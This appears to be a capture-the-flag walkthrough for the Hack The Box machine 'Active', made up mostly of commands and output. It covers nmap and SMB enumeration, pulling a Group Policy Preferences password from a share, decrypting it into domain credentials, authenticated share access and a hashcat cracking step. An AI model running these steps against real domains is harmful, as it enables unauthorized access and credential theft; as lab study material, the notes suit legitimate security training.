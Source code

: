 ## **Box Info::**
OS: Windows \
IP: 10.10.10.100

## **Skills learned::**
Windows
Active Directory
Kerberoasting
Powershell

### **Enumeratiion::**
nmap -p- -A -oN (-f to bypass FW) Activeports.txt ${IP}
dnsrecon -d 10.10.10.100 -r 10.0.0.0/8
locate -r '\.nse$' | xargs grep categories | grep 'default\|version\|safe' | grep smb
#find all nmap scripts to enum smb

```
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-12-25 01:07:00Z) #Make sure attack box is within 1min of this time.
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? *** Nice target to try first ***
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
Host script results:
|_clock-skew: 23m05s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-12-25T01:07:55
|_  start_date: 2021-12-25T01:04:50

```

### **OSINT::**
+ https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage

### **Part 1::**
```
smbclient -L \\\\Active\\                                                                             1 ⨯
Enter WORKGROUP\kali's password: 
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Replication     Disk      
        SYSVOL          Disk      Logon server share 
        Users           Disk      
        
smbclient \\\\Active\\Replication
      smb: \active.htb\Policies\> ls
      .                                   D        0  Sat Jul 21 06:37:44 2018
      ..                                  D        0  Sat Jul 21 06:37:44 2018
      {31B2F340-016D-11D2-945F-00C04FB984F9}      D        0  Sat Jul 21 06:37:44 2018
      {6AC1786C-016F-11D2-945F-00C04fB984F9}      D        0  Sat Jul 21 06:37:44 2018
      
 smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\> more Groups.xml
      <?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>

  smb: prompt off
  smb: resurse on
  smb: mget *
```
# gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ :: GPPstillStandingStrong2k18

**Creds::**
active.htb/svc_tgs:GPPstillStandingStrong2k18

enum4linux <ip> # gives smb share login access.
smbmap -H <ip> # lists shares
smbmap -R <share name> -H <ip> -A <file> -q #quiet

GetADUsers.py -all active.htb/svc_tgs -dc-ip <ip>

Try smbmap again::
smbmap -d active.htb -u svc_tgs -p GPPstillStandingStrong2k18 -H <ip>
:: Now READ ONLY access to NETLOGON,Replication,SYSVOL,Users
smbmap -d active.htb -u svc_tgs -p GPPstillStandingStrong2k18 -H <ip> -R Users #recursively list files in Users smb share
smbmap -d active.htb -u svc_tgs -p GPPstillStandingStrong2k18 -H 10.10.10.100 -R Users -A user.txt -q
cat user.txt :: 86d67d8ba232bb6a254aa4d10159e983 >hashsmb.txt
hashcat hashsmb.txt /usr/share/wordlist/rockyou.txt

**Part II: Bloodhound::**